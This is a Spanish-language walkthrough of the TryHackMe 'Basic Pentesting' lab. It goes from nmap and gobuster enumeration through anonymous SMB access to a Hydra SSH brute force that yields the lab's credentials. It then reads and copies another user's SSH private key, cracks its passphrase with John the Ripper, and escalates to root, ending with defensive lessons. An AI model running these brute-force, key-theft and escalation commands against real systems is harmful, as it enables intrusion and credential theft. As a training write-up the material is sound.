# TryHackMe — Basic Pentesting 🔰

Writeup / walkthrough de la máquina **Basic Pentesting** de TryHackMe. Un laboratorio orientado a principiantes que recorre un flujo completo de pentesting: enumeración de servicios, OSINT sobre archivos expuestos, fuerza bruta de credenciales, pivoteo entre usuarios mediante una llave SSH cifrada y escalada final a `root`.

---

## 🧰 Herramientas utilizadas

- `nmap` — escaneo de puertos y detección de versiones
- `gobuster` — fuerza bruta de directorios web
- `smbclient` — enumeración y acceso a recursos SMB
- `hydra` — fuerza bruta de credenciales SSH
- `ssh2john` + `john` — cracking de la passphrase de una llave SSH privada
- Servidor HTTP temporal (`python3 -m http.server`) — exfiltración de archivos

## 📋 Datos de la máquina

| Campo | Valor |
|---|---|
| IP | `10.64.148.162` |
| Plataforma | TryHackMe |
| Nombre | Basic Pentesting |

---

## 1. Reconocimiento

### Escaneo inicial con Nmap

```bash
nmap 10.64.148.162
```



**Puertos encontrados:**

| Puerto | Servicio |
|---|---|
| 22 | SSH |
| 80 | HTTP |
| 139 | NetBIOS-SSN |
| 445 | Microsoft-DS (SMB) |
| 8009 | AJP13 |
| 8080 | HTTP-Proxy |

### Extracción automática de puertos abiertos

Se guardan los puertos abiertos en un archivo para reutilizarlos directamente en el escaneo de versiones:

```bash
nmap 10.64.148.162 | grep "/tcp" | cut -d'/' -f1 | tr '\n' ',' | sed 's/,$//' > port.txt
cat port.txt
```



### Escaneo de versiones

```bash
nmap -sS -sV -sC -p$(cat port.txt) 10.64.148.162 -oN nmap.txt
```



Se identifican, entre otros: `OpenSSH 8.2p1` (22), `Apache 2.4.41` (80), `Samba smbd 4` (139/445), `Apache Jserv/AJP13` (8009) y `Apache Tomcat 9.0.7` (8080).



---

## 2. Enumeración web

### Página alojada en el puerto 80



### Enumeración de directorios con Gobuster

```bash
gobuster dir -u http://10.64.148.162/ -w /usr/share/wordlists/dirb/common.txt
```



Se descubre el directorio **`/development`**, el cual contiene dos archivos: `dev.txt` y `j.txt`.



### Contenido de `dev.txt`



El archivo está firmado por los usuarios **`K`** y **`J`**, y menciona que el servicio **SMB fue configurado** (coincide con los puertos 139/445 vistos en el escaneo), además de mencionar el uso de *Struts*.

### Contenido de `j.txt`



En este archivo, el usuario **`K`** le informa a **`J`** que auditó `/etc/shadow` y logró crackear su hash fácilmente, pidiéndole que cambie su contraseña de inmediato.

📌 **Deducción:** `K` parece ser un usuario con más privilegios (audita `/etc/shadow`), mientras que `J` tiene una contraseña débil.

---

## 3. Enumeración SMB

```bash
smbclient -L //10.64.148.162 -U guest
```



Se encuentra el recurso compartido **`Anonymous`**, accesible sin autenticación real.

### Acceso al recurso y descarga de archivo

```bash
smbclient //10.64.148.162/Anonymous -U guest
get staff.txt
```



### Contenido de `staff.txt`



El archivo revela los nombres completos de los usuarios detectados previamente:

- **K = Kay**
- **J = Jan**

📌 Con esto se confirma que **Kay** es el usuario con privilegios (el que auditaba `/etc/shadow` y pedía cambiar contraseñas), y **Jan** es el usuario con la contraseña débil.

---

## 4. Explotación — Acceso inicial vía SSH

### Fuerza bruta con Hydra sobre el usuario `jan`

```bash
hydra -l jan -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt ssh://10.64.148.162
```



✅ **Credenciales encontradas:**

```
usuario: jan
password: armando
```

### Conexión SSH como `jan`



---

## 5. Movimiento lateral hacia el usuario `kay`

### Verificación de permisos sudo

```bash
sudo -l
```



El usuario `jan` **no tiene permisos sudo**.

### Enumeración del directorio home

```bash
pwd
ls -la
```



Sin acceso a los archivos dentro de su propio directorio home (`.lesshst` pertenece a `root`).

### Exploración del directorio `/home`

```bash
cd ..
ls -l
cd kay
```



Dentro del home de `kay` se identifica un directorio interesante: **`.ssh`**.

### Acceso al directorio `.ssh` de kay

```bash
cd .ssh
ls -la
```



El usuario `jan` tiene **permisos de lectura** sobre `id_rsa`, la llave privada de `kay` — pero está cifrada con passphrase.

---

## 6. Exfiltración y cracking de la llave privada

### Servidor HTTP temporal en la máquina víctima

```bash
python3 -m http.server
```



### Descarga de `id_rsa` desde Kali

```bash
wget http://10.64.148.162:8000/id_rsa
```



### Ajuste de permisos y primer intento de conexión

```bash
chmod 600 id_rsa
ssh kay@10.64.148.162 -i id_rsa
```





La llave está protegida con **passphrase** — es necesario crackearla offline.

### Conversión de la llave a formato hash con `ssh2john`

```bash
ssh2john id_rsa > id_rsa.hash
```



### Cracking con John the Ripper

```bash
john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash
```



✅ **Passphrase encontrada:** `beeswax`

---

## 7. Acceso como `kay` y captura de flag

### Conexión SSH exitosa

```bash
ssh kay@10.64.148.162 -i id_rsa
```



### Archivo `pass.bak`

```bash
ls
cat pass.bak
```



Se obtiene una contraseña en texto plano guardada como respaldo.

---

## 8. Escalada de privilegios a root

Con la contraseña obtenida de `pass.bak`, se escala privilegios directamente:

```bash
sudo su
```



```bash
cat /root/flag.txt
```

✅ **Flag capturada** — máquina completada. El archivo `flag.txt` incluye además un mensaje del autor del laboratorio felicitando por completar el reto y remarcando la importancia de la enumeración exhaustiva.

---

## 📌 Conclusiones

- La enumeración inicial de **directorios web** (`gobuster`) y **recursos SMB anónimos** (`smbclient`) permitió recolectar información aparentemente trivial (notas internas, nombres de usuario) que resultó clave para el resto del ataque.
- Combinar pequeñas piezas de información dispersas (`dev.txt`, `j.txt`, `staff.txt`) permitió deducir qué usuario tenía una contraseña débil (`jan`) y cuál tenía mayores privilegios (`kay`).
- Una contraseña débil en SSH (`jan:armando`), encontrable por fuerza bruta con **Hydra**, fue la puerta de entrada inicial.
- El movimiento lateral fue posible gracias a permisos de lectura mal configurados sobre la llave privada SSH de otro usuario (`kay/.ssh/id_rsa`), la cual estaba protegida por passphrase pero era **crackeable offline** con `ssh2john` + `john` y un diccionario común (`rockyou.txt`).
- Un archivo de respaldo (`pass.bak`) con la contraseña en texto plano permitió la escalada final a `root`.
- **Lecciones de seguridad:**
  - No compartir información sensible ni notas internas en recursos compartidos anónimos o accesibles públicamente.
  - Aplicar políticas de contraseñas fuertes para todos los usuarios, no solo los administrativos.
  - Restringir los permisos de archivos sensibles (`~/.ssh/id_rsa`) exclusivamente a su propietario.
  - Nunca dejar contraseñas en texto plano en archivos de respaldo (`.bak`) dentro del sistema.

---

## 🏷️ Categoría

`Enumeration` · `SMB` · `OSINT` · `Brute Force` · `SSH Key Cracking` · `Privilege Escalation` · `TryHackMe`
